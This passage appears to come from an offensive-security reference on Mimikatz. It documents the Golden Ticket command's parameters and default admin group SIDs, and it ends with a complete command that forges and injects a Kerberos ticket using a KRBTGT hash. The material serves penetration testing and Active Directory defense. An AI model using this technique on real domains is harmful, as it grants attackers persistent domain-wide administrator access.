 
- /krbtgt – NTLM password hash for the domain KDC service account (KRBTGT). Used to encrypt and sign the TGT.
    

- /ticket (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
    

- /ptt – as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
    

- /id (optional) – user RID. Mimikatz default is 500 (the default Administrator account RID).
    

- /startoffset (optional) – the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
    

- /endin (optional) – ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
    

- /renewmax (optional) – maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).
    

- /sids (optional) – set to be the SID of the Enterprise Admins group in the AD forest ([ADRootDomainSID]-519) to spoof Enterprise Admin rights throughout the AD forest (AD admin in every domain in the AD Forest).
    

- /aes128 – the AES128 key
    

- /aes256 – the AES256 key
    

Golden Ticket Default Groups:

- Domain Users SID: S-1-5-21<DOMAINID>-513
    

- Domain Admins SID: S-1-5-21<DOMAINID>-512
    

- Schema Admins SID: S-1-5-21<DOMAINID>-518
    

- Enterprise Admins SID: S-1-5-21<DOMAINID>-519 (this is only effective when the forged ticket is created in the Forest root domain, though add using /sids parameter for AD forest admin rights)
    

- Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520
    

.\mimikatz "kerberos::golden /User:Administrator /domain:rd.lab.adsecurity.org /id:512 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit

​[Golden tickets across domains](https://adsecurity.org/?p=1640)​

#### Silver Ticket[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#silver-ticket)
